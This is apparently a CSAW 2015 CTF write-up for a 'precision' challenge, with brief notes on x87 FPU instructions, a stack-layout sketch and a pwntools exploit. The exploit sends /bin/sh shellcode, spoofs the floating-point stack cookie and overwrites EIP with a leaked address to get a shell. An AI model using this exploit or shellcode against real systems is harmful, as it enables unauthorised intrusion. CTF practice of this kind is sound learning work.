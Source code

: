 ```yaml
---
layout: post
title: "csaw_precition"
date: 2015-09-23 00:47:01 +0800
comments: true
categories: 
---
```


0x00 pre
fld是将浮点数字传入fpu寄存器
FST 指令将 ST(0) 寄存器中的值复制到目标操作数
FSTP 指令先执行同 FST 指令相同的操作，然后弹出寄存器堆栈
FUCOMIP比较大小，结果放在EFLAGS

0x01 anaylasis

	buf --- esp+18
	shellcode
	junk
	cookie --- esp+98
	junk
	junk_ebp
	eip ----- v4


0x02 exp

	from pwn import *
	from binascii import *

	#r = process('./precision')
	r = remote('192.168.56.102', 6666)


	cookie = '\xa5\x31\x5a\x47\x55\x15\x50\x40'
	#cookie = 'cccccccc'
	data = r.recv(16)
	v4 = int(data[8:17], 16)
	print data
	print data[8:17]
	print hex(v4)
	payload  = ''
	payload= "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\x40\x40\x40\x40\x40\x40\x40\x40\x40
	\x40\x40\xcd\x80"


	payload += 'a'*(0x80 - len(payload))
	payload += cookie
	payload += 'bbbbccccdddd'
	payload += p32(v4)
	print b2a_hex(payload)

	r.sendline(payload)


	r.interactive()


        

